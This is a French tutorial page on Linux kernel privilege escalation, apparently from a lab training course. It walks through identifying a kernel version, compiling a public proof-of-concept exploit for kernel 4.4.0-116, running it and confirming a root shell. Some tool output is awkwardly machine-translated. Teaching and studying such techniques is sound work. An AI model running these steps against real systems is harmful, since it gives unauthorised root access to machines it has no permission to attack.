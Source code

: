 Exploits du noyau
===============

* * * * *

Des exploits au niveau du noyau existent pour diverses versions du noyau Linux. Un exemple très connu est [Dirty COW](https://github.com/dirtycow/dirtycow.github.io) (CVE-2016-5195). Ceux-ci exploitent les vulnérabilités du noyau pour exécuter du code avec les privilèges root. Il est très courant de trouver des systèmes vulnérables aux exploits du noyau. Il peut être difficile de suivre les systèmes hérités, et ils peuvent être exclus des correctifs en raison de problèmes de compatibilité avec certains services ou applications.

L'élévation de privilèges à l'aide d'un exploit de noyau peut être aussi simple que de le télécharger, de le compiler et de l'exécuter. Certains de ces exploits sont prêts à l'emploi, tandis que d'autres nécessitent des modifications. Un moyen rapide d'identifier les exploits consiste à émettre la commande `uname -a` et à rechercher sur Google la version du noyau.

Remarque : Les exploits du noyau peuvent entraîner une instabilité du système. Soyez donc prudent lorsque vous les exécutez sur un système de production.

* * * * *

Exemple d'exploitation du noyau
----------------------

Commençons par vérifier le niveau du noyau et la version du système d'exploitation Linux.

```
dsgsec@htb[/htb]$ uname -a

Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Lundi 12 février 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

```

```
dsgsec@htb[/htb]$ cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xénial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

```

Nous pouvons voir que nous sommes sur Linux Kernel 4.4.0-116 sur une boîte Ubuntu 16.04.4 LTS. Une recherche rapide sur Google pour `linux 4.4.0-116-generic exploit` donne [ce](https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Ensuite, téléchargez-le sur le système à l'aide de `wget` ou d'une autre méthode de transfert de fichiers. Nous pouvons compiler le code d'exploitation en utilisant [gcc](https://linux.die.net/man/1/gcc) et définir le bit exécutable en utilisant `chmod +x`.

```
dsgsec@htb[/htb]$ gcc kernel_exploit.c -o kernel_exploit && chmod +x kernel_exploit

```

Ensuite, nous exécutons l'exploit et nous espérons être déposés dans un shell root.

```
dsgsec@htb[/htb]$ ./kernel_exploit

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
coquille de racine de frai

```

Enfin, nous pouvons confirmer l'accès root à la boîte.

```
root@htb[/htb]# whoami

root

```